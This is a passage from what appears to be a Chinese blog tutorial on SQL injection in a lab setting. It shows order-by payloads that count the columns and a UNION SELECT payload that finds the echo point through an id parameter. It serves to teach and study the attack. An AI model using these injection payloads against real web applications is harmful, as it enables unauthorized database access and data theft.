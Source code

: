 
这样就很明显能发现 可以返回数据库里的内容了

### 首先来爆字段



```cobol
?id=1' order by 1-- +
?id=1' order by 2-- +
?id=1' order by 3-- +
?id=1' order by 4-- +
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/97914e9df14817a8a76bd6aeb49c375f.png" alt="" style="max-height:245px; box-sizing:content-box;" />


发现字段为3



<img src="https://i-blog.csdnimg.cn/blog_migrate/84b452c5c82f89c0c5876acb262b772d.png" alt="" style="max-height:214px; box-sizing:content-box;" />


```cobol
order by  就是通过列来排列 默认是降序
 
这里是通过 order by 来判断字段
 
因为123 的时候有返回 
 
4就没有 说明就有3个字段
```

### 联合注入

我们猜完字段就可以使用 union来联合注入

```cobol
union的作用 
 
select 语句1 
union
select 语句2
 
union 会把两个select 语句 结果变为一个集合返回
 
如果1 报错 没有返回 就会返回2的结果
 
```

#### 判断注入点

首先我们看看哪里会回显

```cobol
/?id=-1' union select 1,2,3-- +
```
